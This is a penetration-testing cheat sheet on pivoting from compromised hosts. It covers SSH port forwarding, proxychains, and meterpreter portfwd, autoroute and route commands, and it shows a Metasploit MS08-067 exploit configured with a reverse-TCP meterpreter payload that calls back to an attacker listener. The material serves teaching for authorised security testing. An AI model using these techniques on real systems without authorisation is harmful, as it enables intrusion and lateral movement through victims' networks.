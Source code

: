 

# Pivoting on a Penetration Test

## What is pivoting ?

Pivoting allows a security consultant to use a host compromised during a [pen testing](https://www.aptive.co.uk/penetration-testing/) engagement to route traffic to other hosts or subnets, giving the tester access to more target machines. Pivoting allows a tester to leverage an existing foothold to move through the network compromising more hosts that were not exposed originally. Typically, a foot hold is established on a target network from successfully exploiting an external machine on a penetration test or from a successful phishing / spear phishing campaign.

This article focuses specifically on pivoting from compromised Linux hosts using SSH and meterpreter pivoting. 

## SSH Penetration Testing Pivoting

SSH port forwarding is a reliable method of pivoting for Linux hosts, the draw back being a new port forward needs to be added for each port you wish to access the host on. However, the extra work is worth it for a stable connection.

<div>
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>ssh -L 9999:10.0.2.2:445 user@192.168.2.250</code></p>
      </td>
      <td>
            <p>SSH port forwarding, port 9999 locally is forwarded to port 445 on 10.0.2.2 through host 192.168.2.250</p>
      </td>
    </tr>
      <tr>
      <td>
        <p><code>ssh -D 127.0.0.1:9050 root@192.168.2.250</code></p>
      </td>
      <td>
            <p>Proxychains Forwarding - Dynamically allows all port forwards to the subnets availble on the target.</p>
      </td>
    </tr>
      </tbody>
</table>
</div>

## Note on Proxychain port forwards 

Dynamic SSH Proxychain forwarding does not work with meterpreter shells. 

If you attempt to spawn a shell via Meterpreter, you'll get an error similar to the following:


```bash 
meterpreter > execute -f cmd.exe -i -H
|S-chain|-<>-127.0.0.1:9050-<><>-127.0.0.1:41713-<--timeout
``` 

## How to use Proxychain port forwards 

All commands must be prefixed with <code>proxychains</code> in order to route traffic correctly. 

### Example connecting to RDP over Proxychains 

```bash 
proxychains rdesktop TARGET-ADDRESS 
``` 

## Metasploit SSH Pivoting Example 

The following example uses the Metasploit module for **MS08_067** assumes you have setup the SSH port forward using the instructions above and port: <code>9999</code> is forwarded to 445. 

**Attacking Machine:** 192.168.3.99 

```bash
msf exploit(ms08_067_netapi) > show options

 Module options (exploit/windows/smb/ms08_067_netapi):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    RHOST    0.0.0.0          yes       The target address
    RPORT    9999             yes       Set the SMB service port
    SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


 Payload options (windows/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  thread           yes       Exit technique (accepted: seh, thread, process, none)
    LHOST     192.168.3.99     yes       The listen address
    LPORT     443              yes       The listen port

 Exploit target:

    Id  Name
    --  ----
   0   Automatic Targeting
``` 

## Meterpreter Pivoting Cheat Sheet 

If you have successfully compromised a host during a penetration test it's possible to use a meterpreter shell to pivot to other hosts on the network. Using meterpreter it's possible to pivot from compromised Windows and Linux targets, however it's typically far less reliable than SSH port forwarding as Meterpreter sessions can time out killing the connection. 

<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>portfwd add –l 3389 –p 3389 –r target-host</code></p>
      </td>
      <td>
            <p>Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>portfwd delete  –l 3389 –p 3389 –r target-host</code></p>
      </td>
      <td>
            <p>Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>portfwd flush</code></p>
      </td>
      <td>
            <p>Delete all port forwards</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>portfwd list</code></p>
      </td>
      <td>
            <p>List active port forwards</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>run autoroute -s 192.168.15.0/24</code></p>
      </td>
      <td>
            <p>Autoroute script to add the route for specified subnet <code>192.168.15.0</code></p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>run autoroute -p</code></p>
      </td>
      <td>
            <p>List all active routes</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route</code></p>
      </td>
      <td>
            <p>View available networks the compromised host can access</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route add 192.168.14.0 255.255.255.0 3</code></p>
      </td>
      <td>
            <p>Add route for 192.168.14.0/24 via Session 3.</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route delete 192.168.14.0 255.255.255.0 3</code></p>
      </td>
      <td>
            <p>Delete route for 192.168.14.0/24 via Session 3.</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>route flush</code></p>
      </td>
      <td>
            <p>Delete all Meterpreter routes</p>
      </td>
    </tr>

      </tbody>
</table>

 
## How to Connect to targets using Meterpreter Port Forwards 

The port is forwarded locally to the target. Using RDP as an example, assuming you have setup a meterpreter port forward using the same port for local and remote. You would connect to it using: 

```bash 
rdesktop 127.0.0.1
```

Enjoy.  
